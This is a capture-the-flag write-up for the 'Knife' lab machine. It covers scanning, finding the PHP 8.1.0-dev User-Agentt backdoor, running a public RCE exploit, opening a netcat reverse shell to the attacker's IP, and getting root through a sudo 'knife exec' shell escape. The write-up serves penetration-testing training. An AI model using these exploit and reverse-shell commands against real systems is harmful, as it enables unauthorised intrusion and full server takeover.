 # Knife      

![Knife](./Screenshots/knifelogo.png)

## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/knifenmap.png)

Here are the descriptions of the open ports shown in the screenshots:

### **22/tcp (SSH)**
The **SSH** service is running **OpenSSH 8.2p1** on **Ubuntu**. This service enables secure remote access and uses **protocol version 2.0**. The scan reveals the server’s SSH host keys, including **RSA (3072-bit)**, **ECDSA (256-bit)**, and **ED25519 (256-bit)**, which are used for encryption and server authentication. The presence of these keys provides an indication of the security configuration for SSH on this system.

### **80/tcp (HTTP)**
The web server running on this port is **Apache httpd 2.4.41** on **Ubuntu**. It supports HTTP methods **GET**, **HEAD**, **POST**, and **OPTIONS**, which allow for a range of client interactions. The HTTP title returned is **Emergent Medical Idea**. Additionally, the **Apache/2.4.41 (Ubuntu)** server header confirms the server type and version, which could be useful in determining any specific vulnerabilities associated with this version.

When I saw that http is open, I pasted `http://{target ip}` into the browser.

![web](./Screenshots/knifeweb.png)

As the site is very limited and you can't navigate through it, I decided to use **Gobuster** to search for subdomains but I did not find anything. 

### cURL + Wappalyzer

I decided to look around. I've checked page source but nothing interesting was there. The most useful thing turned out to be **Wappalyzer** extension.

![cURL](./Screenshots/knifecurl.png)

This led me to read about PHP 8.1.0 but again - I did not find anything that could help me further.

So I typed:

```
curl -I http://{target ip}/
```

![cURL](./Screenshots/knifecurl2.png)

I pasted **PHP/8.1.0-dev** into Google and found an interesting article:

```
https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
```

Long story short:

The article discusses a **backdoor** present in **PHP version 8.1.0-dev**, allowing **remote code execution (RCE)**. This **backdoor** was introduced into the PHP source code by an unauthorized individual, posing a severe security threat to servers running this version of PHP. The **backdoor** is embedded through a simple `user_agent` function call, which accepts code as a parameter and executes it. In practice, this means anyone who calls this code using the appropriate `User-Agent` header can run arbitrary commands on the server.

An attacker could send a specially crafted HTTP request with the `User-Agentt` parameter containing a command they want to execute on the server. This command is then interpreted and executed by PHP without any additional authorization, granting full access to the system. This kind of vulnerability in PHP is highly risky, as it allows intrusion and remote control over the server. The recommended solution is to update PHP to a version that does not contain this backdoor. The article cautions administrators against deploying experimental software versions in production environments. Exploiting this vulnerability may also be challenging to detect, as the attack leaves no obvious traces in the server logs.

I quickly found the exploit to it:

```
https://www.exploit-db.com/exploits/49933
```

```
https://github.com/flast101/php-8.1.0-dev-backdoor-rce
```

### Exploitation

Let's use this `exploit`.

Type in order:

```
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```

```
cd php-8.1.0-dev-backdoor-rce
```

Let's use **backdoor** script.

```
python3 backdoor_php_8.1.0-dev.py
```

Provide `http://{target ip}/` when it asks you to enter the host url.

![Exploitation](./Screenshots/knifeexploit.png)

We have a `shell`. Perfect.

### Get the user flag

The `user` flag is in the `/home/james` path.

![flag](./Screenshots/knifeuserflag.png)

### Privilege escalation

Since the current shell provides limited options for navigating the system and I couldn't find a way to stabilize it, I decided to simply use a reverse shell script (**revshell_php_8.1.0-dev.py**) to make it easier for me to find an idea to escalate privileges.

![PE](./Screenshots/knifepe.png)

### Netcat

First of all, let's set up a **Netcat** listener.

```
nc -lvnp {any port you want}
```

![PE](./Screenshots/knifepe2.png)

Now in the tab with exploit type:

```
python3 revshell_php_8.1.0-dev.py http://{target ip}/ {your tun0 ip} {port you have chosen}
```

and press `Enter`.

![PE](./Screenshots/knifepe3.png)


In you **Netcat** tab you shuld have a shell.

![PE](./Screenshots/knifepe4.png)

It is more stabilized than previous one, excellent.

![PE](./Screenshots/knifepe5.png)

We can see .ssh directory. We could use `james`'s OPENSSH private key to have even better shell by logging through **SSH** but it isn't necessary.

![PE](./Screenshots/knifepe6.png)

Now, we could transfer **LINpeas.sh** script via simple Python3 http server form our local machine to the target machine and run it but I found something interesting and finally this gave me the `root`'s flag.

When I want to escalate privileges I almost always hit:

```
sudo -l
```

command.

This time it was very useful again.

![PE](./Screenshots/knifepe7.png)

The user `james` can run the command `/usr/bin/knife` with root privileges without needing to enter a password (NOPASSWD).

As challenge name is **Knife** I assume that this is fair path to explore.

We could probably edit the `knife` file with some interesting payload and then run it but in cases like this I always like to check **GTFOBins** binaries.

![PE](./Screenshots/knifepe8.png)

I found this. Let's use it.

Let's move to the `/usr/bin` directory first:

```
cd /usr/bin
```

and when we are in the right path, let's type:

```
sudo knife exec -E 'exec "/bin/sh"'
```

![PE](./Screenshots/knifepe9.png)

We are `root` :)

### Get the root flag

`Root` flag is in the `/root` directory.

![flag](./Screenshots/kniferootflag.png)

### Paste the flags

![pwned](./Screenshots/knifepwned.png)